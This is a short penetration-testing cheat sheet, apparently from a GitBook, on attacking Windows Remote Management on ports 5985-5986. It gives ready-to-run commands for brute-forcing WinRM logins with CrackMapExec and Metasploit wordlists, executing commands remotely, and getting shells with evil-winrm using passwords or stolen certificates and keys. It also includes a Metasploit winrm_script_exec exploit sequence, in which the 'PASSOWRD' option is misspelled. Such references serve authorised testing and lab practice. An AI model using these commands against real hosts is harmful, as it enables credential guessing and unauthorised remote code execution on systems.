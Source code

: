 # Port 5985-5986 - WinRM

**WinRM (Windows Remote Management)** is used to manage and configure Windows Systems remotely. WinRM **needed windows credentials**.

```
# CHECK THE VERSION
searchsploit winrm VERSION
```

### CrackMapExec

<pre class="language-bash" data-title="Brute Forcing"><code class="lang-bash"><strong>crackmapexec winrm IP -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
</strong></code></pre>

{% code title="Command Execution" %}
```bash
crackmapexec winrm IP -u USER -p PASS -x "whoami"
```
{% endcode %}

### &#x20;evil-winrm

{% code title="User and Password Auth" %}
```bash
evil-winrm -u $USER -p $PASS -i $IP
```
{% endcode %}

{% code title=" .pfx cert and key Auth" %}
```bash
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
# -i: ip
# -c: public key cert
# -k: private key cert
# -S: enable ssl
```
{% endcode %}



### WinRM Metasploit

```bash
 service postgresql start && msfconsole
 use exploit/windows/winrm/winrm_script_exec
 set RHOSTS IP
 set RPORT PORT
 set FORCE_VBS true
 set USERNAME USER
 set PASSOWRD PASS
 exploit
```
